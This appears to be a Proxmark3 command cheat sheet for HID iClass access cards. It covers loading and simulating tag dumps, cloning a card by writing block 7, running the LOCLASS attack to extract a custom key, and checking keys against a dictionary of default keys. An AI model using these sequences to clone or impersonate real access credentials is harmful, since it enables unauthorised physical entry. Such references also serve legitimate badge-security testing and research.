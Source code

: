 Load iClass dump into memory for simulation
```
Options
---
f <filename>     : load iclass tag-dump filename

pm3 --> hf iclass eload f hf-iclass-db883702f8ff12e0.bin
```

Simulate iClass
```
Options
---
0 <CSN>     simulate the given CSN
2           Runs part 1 of LOCLASS attack
1           simulate default CSN
3           Full simulation using emulator memory (see 'hf iclass eload')

pm3 --> hf iclass sim 3
```

Clone iClass Legacy Sequence
```
pm3 --> hf iclass rdbl b 7 k 0
pm3 --> hf iclass wrbl b 7 d 6ce099fe7e614fd0 k 0
```

Simulate iClass Sequence
```
pm3 --> hf iclass dump k 0
pm3 --> hf iclass eload f hf-iclass-db883702f8ff12e0.bin
pm3 --> hf iclass sim 3
```

Extract custom iClass key (loclass attack)
```
Options
---
f <filename>   : specify a filename to clone from
k <Key>        : Access Key as 16 hex symbols or 1 hex to select key from memory
e              : If 'e' is specified, elite computations applied to key

pm3 --> hf iclass sim 2
pm3 --> hf iclass loclass f iclass_mac_attack.bin
pm3 --> hf iclass dump k <Kcus> e
```

Verify custom iClass key
```
Options
---
f <filename> : Dictionary file with default iclass keys
u            : CSN
p            : EPURSE
m            : macs
e            : elite

pm3 --> hf iclass lookup u 010a0ffff7ff12e0 p feffffffffffffff m 66348979153c41b9 f iclass_default_keys e
```
